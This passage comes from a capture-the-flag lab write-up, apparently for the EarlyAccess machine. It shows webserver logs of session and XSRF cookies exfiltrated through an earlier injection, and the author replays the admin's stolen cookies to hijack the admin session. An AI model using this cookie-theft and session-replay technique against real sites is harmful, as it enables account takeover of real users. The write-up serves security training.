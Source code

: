 The logs from the Python webserver show the hit, which containers the
request contains my cookies:



    10.10.14.6 - - [05/Sep/2021 10:04:30] "GET /earlyaccess_session=eyJpdiI6IldPUC93RS82eFN0QU9uUnI1cW8zdlE9PSIsInZhbHVlIjoiVGlBd25kMU9HZWR2U3ZuRTVTM283QW5WRzhsbS9DbjNLcVZxbkt1ZkVCM2FXb1o4K0VaZ1kzd3NpTVBQK1FVeG8wbTdJRFYwWko3Tkw4WDVmakRTRzBuQ1FRVlBPdDVqaDViZlB5MENUWmFjWUgxbEdFTmV0MElXUnY3VWVycDkiLCJtYWMiOiJjOGE4ZjJmNzc5OThjOTJjNjAyZWI1OTZjZmMxNTlkYWQ4Mzg3OWUwZWE1YmVkZWYzNWY4ZmYxMDgwODQ3NjdiIn0%3D;%20XSRF-TOKEN=eyJpdiI6IkVwTzFYSHhsSEdkU1RmcnphdTN6Q3c9PSIsInZhbHVlIjoiNE54ZmcxMk0zZWEzOSs3MW92d1I2ZGtJS3NZQ1B0eDE0T0RHaGdTa24rVVpoUTJQeFU5Z3hIUHdQckpnMEFrRXJHNHpERk8ydGNWTi9EdGxUTmZFRDlBOU1yV2t1Y294MWZleGQrcVlORE9mSEZHaHJXY1hhYzNyeW9aaERxRGYiLCJtYWMiOiIwZWY2OGRmODdlZDYxZGRmOGY1MDEwMzUwYmNkNDU0ZWY5NDBkNWYxZjA0MTMyYjE1N2M5MDhmZmMzYmQzOGNjIn0%3D HTTP/1.1" 404



Less than a minute later, there's a request from EarlyAccess with a
cookie:



    10.10.11.110 - - [05/Sep/2021 10:04:42] "GET /XSRF-TOKEN=eyJpdiI6Inowei9ZYlV3SDI2QlJGeHRoZTBsT1E9PSIsInZhbHVlIjoiQ0tRMDhFMjM2SE5yQzRzKzZLL2tUbGxQNXZ5ZnlMMkpRV2pqWTY2ZVY0Y21JTzN0aG40MS9xNWNCMU1rYk5ERnBzVUNpY0tqa1craW8yZkw3MnlzMHQyS1Y4cEFYZUMxZ3dwek5rSHRTY05jaVZVR2hsNDNjQk05eHV3RlhnQTIiLCJtYWMiOiJiMDAyOTBkODNlOTRhN2M4NDAwN2ViNGUyNWQzMjkzYTJiYjVmYjQ4MTYxNDNhZmExNDcwYzRkZTFmZjExMzRjIn0%3D;%20earlyaccess_session=eyJpdiI6IlpZV0VZUnU4V09HTUdONHEzQ3ZBMEE9PSIsInZhbHVlIjoiZVVqaDduTXcwcWJMdC9PUGl4U1QzcHZTVkYzdkJ6ZVM2SlJWKzZrNGhxelBGLzBZTjhic0djaGJqTXM3NWNGeGtlR05CSXZsSkdCb3oyZGNORWpYM3BHM2xvUGhKWmJFOFZ6ZVVIK2hlMHNIVU1YOWxEaXhJaUJMY3ZKYTJUNFAiLCJtYWMiOiJhMmU3YmYyYzhmNjk3YmFhZTc4ZjExNWIyMThlYTU1MzZhYmMzMGIwOWM2Mzc3OGNkM2IyODU0ZmRiNzBiM2FkIn0%3D HTTP/1.1" 404 -



When I replace my cookies in Firefox with these and refresh, I'm logged
in as admin:

![](/img/image-20210817065752145.png)

## Game Access

### Enumeration

As admin, the site has different menu options at the top. "Dev" and
"Game" lead to the subdomains I found earlier (`dev.earlyaccess.htb` and
`game.earlyaccess.htb`). I still can't log into dev without the admin
password, and game still requires and account with a game key associated
with it.

"Admin" has a dropdown menu:

![](/img/image-20210817094118871.png)
